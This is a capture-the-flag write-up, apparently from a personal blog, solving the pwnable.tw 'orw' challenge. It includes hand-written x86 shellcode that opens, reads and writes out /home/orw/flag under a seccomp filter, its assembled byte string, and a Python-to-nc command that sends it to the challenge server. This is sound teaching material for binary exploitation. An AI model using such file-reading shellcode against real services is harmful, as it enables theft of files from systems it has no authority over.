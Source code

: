 +++
title = "pwnable.tw - orw"
date = 2019-06-11T19:45:48.202Z
updated = 2019-09-15T19:37:08.225Z
aliases = ["/posts/5d0004ec2569df08a43d04cf-pwnabletw-orw"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'pwntools', 'assembly', 'shellcode']
categories = ["ctf-writeups"]
+++

# Challenge

> Read the flag from `/home/orw/flag`.
> 
> Only open read write syscall are allowed to use.
>
> `nc chall.pwnable.tw 10001`

# Solution
The binary simply reads in 200 bytes and then jumps to its address, after using `prctl` to prevent calling `execve`:

```cpp
int main(void) {
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0,shellcode,200);
  (*(code *)shellcode)();
  return 0;
}
```

By using `strace`, we see that `orw_seccomp` calls `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, {len = 12, filter = 0x400000020})`.  
Based on this and the challenge description, it is clear that we cannot use a `execve` shell code like in the 
[previous challenge](https://srikavin.me/blog/posts/5cfff3292569df08a43d04cc-pwnabletw-start).

To assemble shellcode, I used an [online x86 assembler](https://defuse.ca/online-x86-assembler.htm) rather than setting 
up nasm. We know that the flag is located in `/home/orw/flag`. Our shellcode needs to accomplish the following:

<!-- more -->

```cpp
char[0x30] buffer;
fd = open("/home/orw/flag", RD_ONLY);
read(fd, buffer, 0x30);
write(stdout, buffer, 0x30);
```

We can refer to a [Linux x86 syscall table](http://shell-storm.org/shellcode/files/syscalls.html) to see the syscall 
numbers. The following is (sub-optimal) assembly code that I wrote that will open the file, read its contents, and write 
to `stdout`.

```asm
push 0x6761
push 0x6C662F77
push 0x726F2F65
push 0x6D6F682F

# open('/home/orw//flag', RD_ONLY)
xor eax, eax
add eax, 5
mov ebx, esp
xor ecx, ecx # 0 = RD_ONLY
xor edx, edx # 
int 0x80

# read(fd, esp, 0x30)
mov ebx, eax
mov eax, 3
mov ecx, esp
add edx, 0x30
int 0x80

# write(1, esp, 0x30)
mov eax, 4
xor ebx, ebx
add ebx, 1
mov ecx, esp
int 0x80
```

Assembling it gives us the following byte string:
```
\x68\x61\x67\x00\x00\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x31\xC0\x83\xC0\x05\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\x89\xE1\x83\xC2\x30\xCD\x80\xB8\x04\x00\x00\x00\x31\xDB\x83\xC3\x01\x89\xE1\xCD\x80
```
Now we just have to pipe into the challenge, and we get the flag.
```
python -c 'print "\x68\x61\x67\x00\x00\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x31\xC0\x83\xC0\x05\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\x89\xE1\x83\xC2\x30\xCD\x80\xB8\x04\x00\x00\x00\x31\xDB\x83\xC3\x01\x89\xE1\xCD\x80" | nc chall.pwnable.tw 10001
```
